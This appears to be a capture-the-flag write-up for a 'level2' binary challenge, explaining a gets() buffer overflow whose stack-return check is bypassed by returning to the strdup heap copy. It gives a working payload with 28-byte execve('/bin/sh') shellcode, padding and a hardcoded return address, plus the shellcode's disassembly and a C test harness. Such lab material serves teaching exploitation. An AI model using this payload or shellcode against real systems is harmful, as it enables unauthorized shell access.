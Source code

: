 # Solution

```c
int p()
{
  char v1[64]; // [esp+1Ch] [ebp-4Ch] BYREF
  const void *v2; // [esp+5Ch] [ebp-Ch]
  unsigned int retaddr; // [esp+6Ch] [ebp+4h]

  fflush(stdout);
  gets(v1);
  v2 = (const void *)retaddr;
  if ( (retaddr & 0xB0000000) == -1342177280 )
  {
    printf("(%p)\n", v2);
    _exit(1);
  }
  puts(v1);
  return strdup(v1);
}
```

  exploit : make the return adresse point to a shellcode
  but "if ( (retaddr & 0xB0000000) == -1342177280 )" block us from returning to the shellcode
  in the stack so we will use the heap instead

  since aslr is disabled strdup will have the same return adress
  (check $eax in gdb or ltrace)

payload :
  ```sh
  (python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + 'A'*52 + '\x08\xa0\x04\x08'";cat -) | ./level2
  ```
  shellcode > padding > return adress



shellcode:
  /*
Title:  Linux x86 execve("/bin/sh") - 28 bytes
Author: Jean Pascal Pereira &lt;pereira@secbiz.de&gt;
Web:    http://0xffe4.org


Disassembly of section .text:

08048060 &lt;_start&gt;:
 8048060: 31 c0                 xor    %eax,%eax
 8048062: 50                    push   %eax
 8048063: 68 2f 2f 73 68        push   $0x68732f2f
 8048068: 68 2f 62 69 6e        push   $0x6e69622f
 804806d: 89 e3                 mov    %esp,%ebx
 804806f: 89 c1                 mov    %eax,%ecx
 8048071: 89 c2                 mov    %eax,%edx
 8048073: b0 0b                 mov    $0xb,%al
 8048075: cd 80                 int    $0x80
 8048077: 31 c0                 xor    %eax,%eax
 8048079: 40                    inc    %eax
 804807a: cd 80                 int    $0x80



*/

#include &lt;stdio.h&gt;

char shellcode[] = "\x31\xc0\x50\x68\x2f\x2f\x73"
                   "\x68\x68\x2f\x62\x69\x6e\x89"
                   "\xe3\x89\xc1\x89\xc2\xb0\x0b"
                   "\xcd\x80\x31\xc0\x40\xcd\x80";

int main()
{
  fprintf(stdout,"Lenght: %d\n",strlen(shellcode));
  (*(void  (*)()) shellcode)();
}
